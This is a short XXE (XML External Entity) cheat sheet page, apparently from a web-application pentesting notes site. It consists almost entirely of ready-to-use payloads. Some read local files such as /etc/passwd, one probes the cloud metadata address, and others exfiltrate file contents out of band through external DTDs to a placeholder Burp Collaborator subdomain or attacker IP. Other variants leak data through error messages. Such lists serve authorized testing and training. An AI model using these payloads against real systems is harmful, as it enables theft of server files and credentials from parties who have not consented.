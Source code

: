 ```yaml
---
title: "XXE - XML External Entity"
draft: false
images: []
description: "XXE Cheatsheet"
lead: "XXE Cheatsheet"
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


### CUSTOM ENTITY
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
### EXTERNAL ENTITY
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
### PARAMETER ENTITY
Evading block request containing regular entities
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
```
### RETRIEVE DATA WITH EXTERNAL DTD
```
----- EXPLOIT SERVER -----

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;

----- VICTIM SERVER -----

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
### RETRIEVE DATA VIA ERROR
```
----- EXPLOIT SERVER -----

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

----- VICTIM SERVER -----

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
### Out of band
```
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY >
<!ENTITY % dtd SYSTEM "http://[YOUR_IP]/payload.dtd"> %dtd;]>
<thp><error>%26send%3B</error></thp>
```